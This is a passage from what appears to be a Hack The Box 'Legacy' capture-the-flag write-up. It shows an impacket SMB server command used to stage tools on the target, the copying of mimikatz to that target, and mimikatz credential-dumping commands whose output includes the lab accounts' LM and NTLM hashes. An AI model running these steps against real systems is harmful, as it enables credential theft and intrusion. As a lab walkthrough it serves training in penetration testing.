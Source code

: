 **Hosting the SMB server:**

```bash
python /opt/impacket-0.9.19/examples/smbserver.py Lab "/home/kali/Desktop/ctf/htb/rooms/legacy/"
```

**Copying whoami.exe to the vulnerable machine:**
![Uploading whoami.exe to The Vulnerable VM](/assets/img/htb-legacy/copy-whoami.png)
_Uploading whoami.exe to The Vulnerable VM_

To take this further, we can leverage `mimikatz` to dump the hashes of all accounts. 

In a similar manner, I have taken `mimikatz` and copied it to our SMB share so it can be accessed from the vulnerable VM.

![Copying Mimikatz to The Vulnerable VM](/assets/img/htb-legacy/copying-mimikatz.png)
_Copying Mimikatz to The Vulnerable VM_

```bash
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : LEGACY / S-1-5-21-117609710-1450960922-1801674531

RID  : 000001f4 (500)
User : Administrator
LM   : b47234f31e261b47587db580d0d5f393
NTLM : b1e8bd81ee9a6679befb976c0b9b6827

RID  : 000003eb (1003)
User : john
LM   : dc6e5a1d0d4929c2969213afe9351474
NTLM : 54ee9a60735ab539438797574a9487ad
```
